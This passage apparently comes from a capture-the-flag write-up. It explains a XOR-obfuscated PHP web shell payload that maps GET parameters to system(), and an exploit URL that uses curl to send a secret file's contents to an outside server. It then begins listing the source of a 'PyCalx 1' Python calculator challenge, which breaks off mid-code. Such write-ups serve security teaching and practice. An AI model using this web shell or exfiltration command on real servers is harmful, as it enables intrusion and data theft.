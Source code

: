 We cannot upload message with letters and numbers, and the length of our message should be less than 40. So, my final payload is:

```php
<?=$_="!';*"^"~`~~";$$_["-"]($$_["_"]);
```

Let's analyze it part by part:

- The first one is `<?=`, which equals to `<?php echo`. We can use it to replace the tag with characters.

- Below is the same as `$_="_GET"`. But we use xor to encrypt the string to bypass restriction.
```
$_="!';*"^"~`~~";
``` 

- `$$_["-"]($$_["_"]);` equals to `$_GET['-']($_GET['_'])`. It turn our http parameter *-* to function name and *_* to parameter. We can use it to execute `system("payload")`

Finally, I decide to use `curl` bring out data, like this:
```
http://138.68.228.12/alien_message/8d598b16d9afa46f01d3fa03dc6bdb8b.php?-=system&_=curl "http://mysever" -d "a=`cat ../secret.php`"
```
. Remember to escape it!

The `?>` is actually not needed during passing, so I do not add it.

# MISC

## PyCalx 1

Here is the simplified source:
```python
#!/usr/bin/env python
import cgi
import sys
from html import escape

FLAG = open('/var/www/flag','r').read()

arguments = cgi.FieldStorage()

if 'source' in arguments:
    source = arguments['source'].value
else:
    source = 0

if source == '1':
    print('<pre>'+escape(str(open(__file__,'r').read()))+'</pre>')

if 'value1' in arguments and 'value2' in arguments and 'op' in arguments:

    def get_value(val):
        val = str(val)[:64]
        if str(val).isdigit(): return int(val)
        blacklist = ['(',')','[',']','\'','"'] # I don't like tuple, list and dict.
        if val == '' or [c for c in blacklist if c in val] != []:
            sys.exit(0)
        return val

    def get_op(val):
        val = str(val)[:2]
        list_ops = ['+','-','/','*','=','!']
        if val == '' or val[0] not in list_ops:
            sys.exit(0)
```